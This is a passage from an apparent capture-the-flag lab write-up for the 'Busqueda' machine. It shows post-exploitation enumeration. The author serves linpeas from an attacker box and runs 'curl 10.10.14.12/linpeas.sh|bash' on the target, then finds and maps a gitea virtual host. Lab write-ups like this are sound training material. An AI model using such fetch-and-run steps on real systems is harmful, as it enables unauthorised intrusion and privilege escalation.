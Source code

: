 ## Discover gitea Virtual Host

Checked sudo (need password), SUID, pspy, nothing found

Use linpeas

```bash
┌──(root㉿kali)-[~/Busqueda]
└─# cd /opt/tools/privesc

┌──(root㉿kali)-[/opt/tools/privesc]
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
svc@busqueda:/proc$ curl 10.10.14.12/linpeas.sh|bash
```

Found vhost: `gitea.searcher.htb`

![](/assets/obsidian/7cc246e1cdb5ed11d3ffae9778facceb.png)

Add to hosts

```bash
┌──(root㉿kali)-[~/Busqueda]
└─# echo '10.10.11.208 gitea.searcher.htb' >> /etc/hosts
```


## Login to Gitea

Visit page
